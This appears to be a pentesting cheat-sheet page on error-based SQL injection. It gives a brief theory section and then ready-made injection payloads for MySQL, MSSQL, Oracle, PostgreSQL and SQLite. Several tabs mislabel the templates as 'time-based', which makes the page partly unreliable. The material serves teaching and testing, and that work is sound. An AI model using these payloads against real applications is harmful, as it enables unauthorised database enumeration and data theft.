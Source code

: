 # Error Based

## Theory

Error-based SQLi is an in-band SQL Injection technique that relies on error messages thrown by the database server to obtain information about the structure of the database. In some cases, error-based SQL injection alone is enough for an attacker to enumerate an entire database. While errors are very useful during the development phase of a web application, they should be disabled on a live site, or logged to a file with restricted access instead.

## Practice

The process is relatively the same as [Boolean Based](boolean-based.md) injection. All you have to do is modify the payloads to trigger an error wait.

{% tabs %}
{% tab title="MySQL" %}
A time-based SQLi payload in MySQL will look like this

```bash
1' AND IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(database()))=1-- -

#Error Based  
1' AND IF((SELECT LENGTH(database()))=1,(SELECT table_name FROM information_schema.tables),'a')--
```
{% endtab %}

{% tab title="MSSQL" %}
A time-based SQLi payload in MSSQL will look like this

```bash
1' AND CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LEN(DB_NAME()))=1--

#Error Based  
1' AND CASE WHEN ((SELECT LEN(DB_NAME()))=1) THEN 1/0 ELSE NULL END--
```
{% endtab %}

{% tab title="OracleSQL" %}
A time-based SQLi payload in OracleSQL will look like this

```bash
1' AND CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(global_name) FROM global_name)=1--

#Error Based  
1' AND CASE WHEN ((SELECT LENGTH(global_name) FROM global_name)=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual--
```
{% endtab %}

{% tab title="PostgreSQL" %}
A time-based SQLi payload in PostgreSQL will look like this

```bash
1' AND 1 = CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(current_database()))=1--

#Error Based    
1' AND 1 = CASE WHEN ((SELECT LENGTH(current_database()))=1) THEN 1/(SELECT 0) ELSE NULL END--
```
{% endtab %}

{% tab title="SQLite" %}
A time-based SQLi payload in SQLite will look like this

```bash
1' AND CASE WHEN (YOUR-CONDITION-HERE) THEN 1 ELSE load_extension(1) END--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT HEX(SUBSTR(sql,1,1)) FROM sqlite_master WHERE type!='meta' and sql NOT NULL AND name='TABLE_NAME_HERE')=HEX('C')--

#Error Based  
1' AND CASE WHEN ((SELECT HEX(SUBSTR(sql,1,1)) FROM sqlite_master WHERE type!='meta' and sql NOT NULL AND name='TABLE_NAME_HERE')=HEX('C')) THEN 1 ELSE load_extension(1) END--
```
{% endtab %}
{% endtabs %}

